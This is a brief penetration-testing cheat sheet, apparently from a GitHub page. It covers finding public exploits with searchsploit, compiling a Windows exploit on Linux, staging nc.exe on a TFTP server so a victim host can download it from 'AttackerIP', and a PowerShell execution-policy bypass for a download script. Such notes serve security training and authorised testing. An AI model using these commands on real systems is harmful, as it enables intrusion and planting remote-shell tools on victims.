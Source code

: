 Finding Public Exploits:
www.securityfocus.com/vulnerabilities
www.exploit-db.com

searchsploit <keyword> #Search exploit-db by keyword  
cp /usr/share/exploitdb/platforms/windows/remote/{643.c,646.c} . #copy found exploit to root directory

i586-mingw32msvc-gcc exploit-fixed.c -lws2_32 -o exploit.exe #compile Windows code on Linux  
wine exploit.exe #Run Windows executable on Linux

File Transfers  
TFTP  
#Attacker  
mkdir /tftp  
atftpd --daemon --port 69 /tftp  
cp /usr/share/windows-binaries/nc.exe /tftp/  

#Victim  
>tftp -i AttackerIP GET nc.exe  

PS File Transfer  
#code sequence in powershell-download file  
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1 #Bypass Execution Policy
